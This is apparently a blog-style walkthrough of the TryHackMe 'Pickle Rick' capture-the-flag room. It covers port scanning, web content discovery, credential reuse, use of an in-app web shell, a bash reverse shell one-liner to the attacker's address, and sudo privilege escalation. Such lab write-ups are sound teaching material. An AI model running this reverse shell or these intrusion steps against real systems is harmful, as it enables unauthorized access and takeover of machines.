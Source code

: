 # Write-up: Pickle Rick @ TryHackMe

![logo](img/logo.png)

This write-up for the room *Pickle Rick* is part of my walk-through series for [TryHackMe](https://tryhackme.com).

Lab-Link: <https://tryhackme.com/room/picklerick>  
Room type: Free 
Difficulty: Easy

## Lab description

![Lab description](img/lab_description.png)

## Steps

### Basic enumeration

I start the lab with a nmap scan to find open ports on the machine.

```
nmap -nv -Pn -sC -sV -O -T4 -oA nmap 10.10.13.30
```

The options I use are the following:

| Option | Meaning | Reasoning |
| -- | -- | -- |
| -n | No DNS resolution | Makes no sense in the lab and slows down |
| -v | Verbose | Print open ports as soon as they are found |
| -Pn | No ping scan | In the lab, I assume the target is online | 
| -sC | Use default set of scripts | Note: This includes some intrusive scans, on a CTF box this is fine, in a real-world scenario using `--script=safe` is preferred |
| -sV | Version detection | Attempt to enumerate the versions for services found | 
| -O | OS detection | |
| -T4 | Use aggressive timing | Another option that is fine in CTF environments but can cause issues in the real world |
| -oA | Output all formats | I'd like to have all formats stored: nmap, xml and grepable |

Without any argument specifying the ports, nmap scans the 1000 most common ports. If you want to find out more, look at the file `/usr`/share/nmap/nmap-services`. 

The results come back showing just two ports open:

![Nmap results for the top 1000 TCP ports](img/nmap_results.png)

- SSH on port 22.
  Often not worth looking too deep inside as long as there are other avenues.
- A webserver on port 80.
  Webservers and the application they might run usually go straight to the top of the priority list.

While the OS detection came back inconclusive, both SSH- and web server hint towards Ubuntu, likely Xenial (16.04) based on the [4ubuntu2.6](https://launchpad.net/ubuntu/xenial/amd64/openssh-server/1:7.2p2-4ubuntu2.6) package version

---

### Checking the web application

The first step is to check what web application runs on the server, so I open a browser and have a look:

![Main web page](img/web_page.png)

It appears to be a fairly static page without any further link or functionality.

However, looking at the HTML reveals a piece of interesting information: a username

![Username disclosed in an HTML comment](img/username_revealed.png)

---

### Finding more web content

A quick check with ffuf shows the existence of two interesting files:

```
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-large-files.txt -u http://10.10.13.30/FUZZ
```

![A quick check with ffuf](img/ffuf_quick.png)

- a `robots.txt`
- a login.php

The check for `robots.txt` should be one of the first steps anyway, as it might contain useful information. In this case, though, it is a non-standard file that just contains an interesting word that does not exist in any language I know: 

![Content of robots.txt file](img/robots_txt.png)

It could be the password for the username, so I quickly attempt to log in with ssh. Unfortunately, the ssh server does not offer password authentication. 

So I move to the second page found, the `login.php`, and do the same thing there:

![Login successful](img/web_login_successful.png)

---

### Checking the web application

The login is successful and I start looking through the application. All links in the top menu link to a `denied` page, but the `commands` page looks interesting.

The `command` that I can execute there might be some application-specific one, or it might be a shell command. I give it a quick try by typing `id` and having it executed:

![A webshell provided by the application owner](img/web_shell.png)

As it turns out, it is a web shell that is provided by the application owner for my convenience.

---

### Checking the file system

I now check my environment in which I can execute commands:

![Content of directory](img/ls.png)

Trying to use `cut` or `head` to read files is prohibited but `egrep` is not, so I use it to grep for *any* character:

![The first flag](img/reading_first_flag.png)

An alternative would be to simply use the browser itself:

![Content of the clue.txt file](img/clue.png)

So I do as I'm asked. In the home directory of rick I find the second ingredient that was asked for:

![The home directory of rick](img/home_of_rick.png)

![The second ingredient](img/second_ingredient.png)

---

### Getting a proper shell

Using the web shell is tedious, and even though it is not required to solve this room, I want to obtain proper shell access. On my local machine, I start a ncat listener with `ncat -nvlp 8888` and execute a reverse shell on the command panel:

```
bash -c "bash -i >& /dev/tcp/10.14.5.57/8888 0>&1"
```

Unfortunately, a python upgrade to a proper tty shell is not successful as python is not installed. But this reverse shell is still much more convenient than the web shell.

---

### Local enumeration

For local enumeration, I use the tool [linpeas](https://github.com/carlospolop/PEASS-ng). I download it to my target and execute it.

A few seconds later, a nice finding is displayed:

![Vulnerable configuration found with linpeas](img/linpeas_finding.png)

The same information can be obtained manually with `sudo -l`:

![The same found manually](img/sudo_finding.png)

The low privilege account `www-data` is allowed to run any command as root without having to provide any password.

This is a serious misconfiguration and a direct path to eternal damnation.

---

### Escalating my privileges

The only thing that is left is to execute a few commands as root:

![The last flag](img/last_flag.png)

I enter the final flag and the room is completed.

**Now flex to other people** 😎

![Room solved](img/success.png)
